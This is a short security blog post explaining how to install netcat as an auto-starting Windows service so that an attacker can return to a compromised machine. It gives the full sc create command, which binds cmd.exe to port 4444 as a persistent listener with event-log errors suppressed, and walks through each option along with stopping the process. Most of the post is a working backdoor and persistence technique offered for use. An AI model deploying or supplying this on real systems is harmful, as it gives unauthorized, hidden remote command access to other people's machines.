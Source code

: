 ```yaml
---
title: 'Netcat as a service'
date: 2019-11-20 23:45
categories: security
tags: netcat hack learn 
featured_image: '/images/posts/netcat.jpg'
lead_text: "Installing netcat as a windows service"
---
```


Many times I've used Netcat to setup (reverse) shell from a compromised 
machine. Digging into services lately, I thought why not use a service
to make Netcat a persistent to be able to return to the machine.

## Adding the service
Service executables are no regular executables. Upon start, the service
process returns directly after starting, but keeps the process running.

Just using "_nc.exe_" would block the service control and keep the status
"starting...". So we use "_cmd /c start ..._" to return immediately after
spawning the "_nc.exe_" process.

```dos
C:\Windows\system32>sc create NcService binPath= "cmd.exe /c start c:\nc.exe -nLp 4444 -e cmd.exe" start= auto error= ignore
[SC] CreateService SUCCESS

C:\Windows\system32>
```

## Netcat options
Starting netcat with "_c:\nc.exe -nLp 4444 -e cmd.exe_".

The options provided to "_nc.exe_":

  * -n : Numeric ip-address, no DNS
  * -L : Persistent listener, restart listening after disconnect.
  * -p : Specify to listen on port 4444
  * -e : The program to run upon connect.

## Netcat service create options
The options provided to "_sc create_":

  * "start= auto" : Automatically start the service on booting
  * "error= ignore" : Do not log errors to eventlog.
  * "binPath= ..."

## Starting and stopping
Netcat is setup now, but still it is not an actual service.
Netcat will start, but there will be an error:

```dos
C:\>sc start NcService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\>

```

Also the status will not tell whether Netcat is running, neither
will it be possible to stop the service.

To stop Netcat, use taskkill:
```dos
C:\>taskkill /f /im nc.exe
SUCCESS: The process "nc.exe" with PID 5576 has been terminated.

C:\>
```

## Wrap up
Not very pretty, but it works fine for me...
